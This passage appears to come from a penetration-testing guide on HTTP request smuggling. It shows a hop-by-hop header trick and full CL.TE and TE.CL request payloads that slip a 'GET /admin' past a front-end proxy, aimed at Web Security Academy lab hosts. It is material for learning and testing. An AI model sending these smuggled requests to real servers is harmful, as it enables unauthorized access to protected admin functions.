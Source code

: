 ### Forcing via hop-by-hop headers

Abusing hop-by-hop headers you could indicate the proxy to **delete the header Content-Length or Transfer-Encoding so a HTTP request smuggling is possible to abuse**.

```
Connection: Content-Lentgh
```

For **more information about hop-by-hop headers** visit:

{% content-ref url="../abusing-hop-by-hop-headers.md" %}
[abusing-hop-by-hop-headers.md](../abusing-hop-by-hop-headers.md)
{% endcontent-ref %}

## Abusing HTTP Request Smuggling

### To bypass front-end security controls

Some times the **front-end proxies will perform some security checks**. You can avoid them by abusing HTTP Request Smuggling as you will be able to **bypass the protections**. For example, in this example you **cannot access `/admin` from the outside** and the front-end proxy is checking that, but this **proxy isn't checking the embedded request**:

**CL.TE**

`POST / HTTP/1.1`\
`Host: acb21fdd1f98c4f180c02944000100b5.web-security-academy.net`\
`Cookie: session=xht3rUYoc83NfuZkuAp8sDxzf0AZIwQr`\
`Connection: keep-alive`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 67`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /admin HTTP/1.1`\
`Host: localhost`\
`Content-Length: 10`\
\`\`\
`x=`

**TE.CL**

`POST / HTTP/1.1`\
`Host: ace71f491f52696180f41ed100d000d4.web-security-academy.net`\
`Cookie: session=Dpll5XYw4hNEu09dGccoTjHlFNx5QY1c`\
`Content-Type: application/x-www-form-urlencoded`\
`Connection: keep-alive`\
`Content-Length: 4`\
`Transfer-Encoding: chunked`\
`2b`\
`GET /admin HTTP/1.1`\
`Host: localhost`\
`a=x`\
`0`\
`\`
